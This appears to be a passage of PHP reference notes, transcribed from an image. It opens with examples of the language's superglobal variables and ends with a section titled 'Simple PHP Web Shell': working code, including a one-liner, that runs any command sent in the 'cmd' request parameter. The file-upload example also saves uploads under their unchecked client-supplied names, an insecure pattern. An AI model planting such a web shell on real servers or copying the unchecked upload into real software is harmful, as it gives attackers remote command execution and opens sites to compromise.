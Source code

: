 ```php
}
// Example of using $_POST
if (isset($_POST['submit'])) {
    $name = $_POST['name'];
    echo "Hello, " . htmlspecialchars($name);
}
// Example of using $_SESSION
session_start(); // Start the session
$_SESSION['username'] = "JohnDoe"; // Set session variable
echo $_SESSION['username']; // Output: JohnDoe
// Example of using $_COOKIE
setcookie("username", "JohnDoe", time() + (86400 * 30), "/"); // Set cookie for 30 days
if (isset($_COOKIE['username'])) {
    echo "Hello, " . htmlspecialchars($_COOKIE['username']);
}
// Example of using $_FILES
if (isset($_FILES['file'])) {
    $file = $_FILES['file'];
    $filename = $file['name'];
    $tempname = $file['tmp_name'];
    move_uploaded_file($tempname, "uploads/" . $filename); // Move uploaded file
    echo "File uploaded successfully!";
}
// Example of using $_SERVER
echo $_SERVER['HTTP_USER_AGENT']; // Output the user agent string
// Example of using $_ENV
$path = getenv('PATH'); // Get the PATH environment variable
echo $path; // Output the PATH variable
// Example of using $_GLOBALS
$global_variable = "I am global";
function globalFunction() {
    echo $GLOBALS['global_variable']; // Access global variable
}
globalFunction(); // Output: I am global
?>
```
### Simple PHP Web Shell
```php
<?php
// Simple PHP Web Shell
if (isset($_REQUEST['cmd'])) {
    $cmd = $_REQUEST['cmd'];
    system($cmd); // Execute command
}
else {
    echo "Nothing to do";
}
?>
```
One liner:
```php
<?php system($_REQUEST['cmd']); ?>
```
